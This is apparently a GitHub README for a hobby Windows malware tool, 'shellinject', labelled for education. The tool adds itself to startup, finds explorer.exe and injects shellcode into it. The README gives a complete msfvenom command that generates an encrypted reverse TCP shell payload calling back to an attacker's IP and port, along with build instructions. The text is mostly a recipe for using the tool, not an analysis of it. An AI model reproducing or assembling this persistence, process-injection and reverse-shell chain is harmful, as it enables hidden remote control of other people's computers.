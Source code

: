 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell 

------------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 
for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to here  
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with g++ or msvs

g++ example :``` g++ add_to_startup.cpp find_pid.cpp shellinj.cpp -o shellinj.exe```

sorry idk how copy it to msvc  ¯\\_(ツ)_/¯

----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

